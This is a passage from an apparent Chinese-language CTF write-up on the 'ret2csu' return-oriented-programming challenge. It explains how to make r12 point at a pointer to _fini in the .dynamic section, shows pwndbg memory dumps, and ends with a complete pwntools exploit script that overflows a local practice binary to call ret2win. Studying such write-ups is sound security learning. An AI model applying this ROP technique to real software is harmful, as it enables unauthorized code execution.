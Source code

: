 例如，可以调用 `.dynamic` 段的 `_fini`，这个函数非常简单：

```asm
sub    rsp,0x8
add    rsp,0x8
ret
```

那么我们控制 `r12` **指向** `_fini` 即可，因为 `rbx` 会被我们设置为 0 所以不用考虑。注意是指向，也就是说 `[r12]` 才是 `_fini` 的地址，后者可以 `gdb` 中 `info func` 得到在 `0x4008b4`，但是我们需要赋值给 `r12` 的实际上是指向 `0x4008b4` 这个地址的指针。

我们可以这样看：

```
pwndbg> x/20x &_DYNAMIC
0x600e20:	0x00000001	0x00000000	0x00000001	0x00000000
0x600e30:	0x0000000c	0x00000000	0x00400560	0x00000000
0x600e40:	0x0000000d	0x00000000	0x004008b4	0x00000000
0x600e50:	0x00000019	0x00000000	0x00600e10	0x00000000
0x600e60:	0x0000001b	0x00000000	0x00000008	0x00000000
```

可以看到在 `0x600e48` 的指针指向 `0x4008b4`，这就是我们要赋值给 `r12` 的值。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./ret2csu')
elf = ELF('./ret2csu')

p.recvuntil('>')

ret2win = elf.symbols['ret2win']
gadget1 = 0x40089a
gadget2 = 0x400880
fini_p = 0x600e48
arg3 = 0xdeadcafebabebeef

payload = flat(['a'*0x28, gadget1, 0, 1, fini_p, 0, 0, arg3, gadget2,0,0,0,0,0,0,0, ret2win])

p.sendline(payload)
p.interactive()
```
